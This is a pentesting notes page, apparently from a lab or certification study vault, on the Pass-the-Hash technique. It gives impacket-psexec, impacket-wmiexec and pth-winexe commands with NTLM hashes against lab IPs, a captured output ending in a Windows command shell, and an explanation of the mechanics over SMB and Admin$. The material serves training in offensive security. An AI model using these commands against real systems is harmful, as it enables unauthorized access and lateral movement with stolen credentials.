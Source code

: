 #Note To extract hashes for a pass the hash, go to [[Dumping SAM]] section or [[DCSync]] section.

### Impacket-psexec
You can use impacket-psexec to pass the hash into winrm service:
```bash
impacket-psexec offsec.local/Administrator:@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```
Examples:
[[Sizzle#^a477a8]]
[[Sauna#^]]
### Impacket-wmiexec
```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```
Examples:
[[Sizzle#^59aa0a]]

### PtH
We can use _pth-winexe_ from the Passing-The-Hash toolkit, just as we did when we passed the hash to a non-domain joined user in the Password Attacks module:
```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Explanation
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including PsExec from Metasploit, Passing-the-hash toolkit, and [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_. This is done using the Service Control ManagerAPI.

This technique requires an SMB connection through the firewall (commonly port 445), and the Windows _File and Print Sharing_ feature to be enabled. These requirements are common in internal enterprise environments.

When a connection is performed, it normally uses a special admin share called Admin$. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

Note that PtH uses the NTLM hash legitimately. However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator.



